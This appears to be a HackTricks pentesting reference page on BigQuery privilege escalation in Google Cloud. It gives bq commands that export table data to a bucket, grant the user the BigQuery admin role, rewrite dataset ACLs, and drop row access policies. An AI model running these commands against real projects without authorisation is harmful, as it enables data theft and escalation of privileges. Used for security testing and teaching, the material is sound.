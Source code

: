 # GCP - BigQuery Privesc

{{#include ../../../banners/hacktricks-training.md}}

## BigQuery

For more information about BigQuery check:

{{#ref}}
../gcp-services/gcp-bigquery-enum.md
{{#endref}}

### Read Table

Reading the information stored inside the a BigQuery table it might be possible to find s**ensitive information**. To access the info the permission needed is **`bigquery.tables.get`** , **`bigquery.jobs.create`** and **`bigquery.tables.getData`**:

```bash
bq head <dataset>.<table>
bq query --nouse_legacy_sql 'SELECT * FROM `<proj>.<dataset>.<table-name>` LIMIT 1000'
```

### Export data

This is another way to access the data. **Export it to a cloud storage bucket** and the **download the files** with the information.\
To perform this action the following permissions are needed: **`bigquery.tables.export`**, **`bigquery.jobs.create`** and **`storage.objects.create`**.

```bash
bq extract <dataset>.<table> "gs://<bucket>/table*.csv"
```

### Insert data

It might be possible to **introduce certain trusted data** in a Bigquery table to abuse a **vulnerability in some other place.** This can be easily done with the permissions **`bigquery.tables.get`** , **`bigquery.tables.updateData`** and **`bigquery.jobs.create`**:

```bash
# Via query
bq query --nouse_legacy_sql 'INSERT INTO `<proj>.<dataset>.<table-name>` (rank, refresh_date, dma_name, dma_id, term, week, score) VALUES (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2019-10-13", 62), (22, "2023-12-28", "Baltimore MD", 512, "Ms", "2020-05-24", 67)'

# Via insert param
bq insert dataset.table /tmp/mydata.json
```

### `bigquery.datasets.setIamPolicy`

An attacker could abuse this privilege to **give himself further permissions** over a BigQuery dataset:

```bash
# For this you also need bigquery.tables.getIamPolicy
bq add-iam-policy-binding \
    --member='user:<email>' \
    --role='roles/bigquery.admin' \
    <proj>:<dataset>

# use the set-iam-policy if you don't have bigquery.tables.getIamPolicy
```

### `bigquery.datasets.update`, (`bigquery.datasets.get`)

Just this permission allows to **update your access over a BigQuery dataset by modifying the ACLs** that indicate who can access it:

```bash
# Download current permissions, reqires bigquery.datasets.get
bq show --format=prettyjson <proj>:<dataset> > acl.json
## Give permissions to the desired user
bq update --source acl.json <proj>:<dataset>
## Read it with
bq head $PROJECT_ID:<dataset>.<table>
```

### `bigquery.tables.setIamPolicy`

An attacker could abuse this privilege to **give himself further permissions** over a BigQuery table:

```bash
# For this you also need bigquery.tables.setIamPolicy
bq add-iam-policy-binding \
    --member='user:<email>' \
    --role='roles/bigquery.admin' \
    <proj>:<dataset>.<table>

# use the set-iam-policy if you don't have bigquery.tables.setIamPolicy
```

### `bigquery.rowAccessPolicies.update`, `bigquery.rowAccessPolicies.setIamPolicy`, `bigquery.tables.getData`, `bigquery.jobs.create`

According to the docs, with the mention permissions it's possible to **update a row policy.**\
However, **using the cli `bq`** you need some more: **`bigquery.rowAccessPolicies.create`**, **`bigquery.tables.get`**.

```bash
bq query --nouse_legacy_sql 'CREATE OR REPLACE ROW ACCESS POLICY <filter_id> ON `<proj>.<dataset-name>.<table-name>` GRANT TO ("<user:user@email.xyz>") FILTER USING (term = "Cfba");' # A example filter was used
```

It's possible to find the filter ID in the output of the row policies enumeration. Example:

```bash
 bq ls --row_access_policies <proj>:<dataset>.<table>

      Id        Filter Predicate            Grantees              Creation Time    Last Modified Time
 ------------- ------------------ ----------------------------- ----------------- --------------------
  apac_filter   term = "Cfba"      user:asd@hacktricks.xyz   21 Jan 23:32:09   21 Jan 23:32:09
```

If you have **`bigquery.rowAccessPolicies.delete`** instead of `bigquery.rowAccessPolicies.update` you could also just delete the policy:

```bash
# Remove one
bq query --nouse_legacy_sql 'DROP ROW ACCESS POLICY <policy_id> ON `<proj>.<dataset-name>.<table-name>`;'

# Remove all (if it's the last row policy you need to use this
bq query --nouse_legacy_sql 'DROP ALL ROW ACCESS POLICIES ON `<proj>.<dataset-name>.<table-name>`;'
```

> [!CAUTION]
> Another potential option to bypass row access policies would be to just change the value of the restricted data. If you can only see when `term` is `Cfba`, just modify all the records of the table to have `term = "Cfba"`. However this is prevented by bigquery.

{{#include ../../../banners/hacktricks-training.md}}



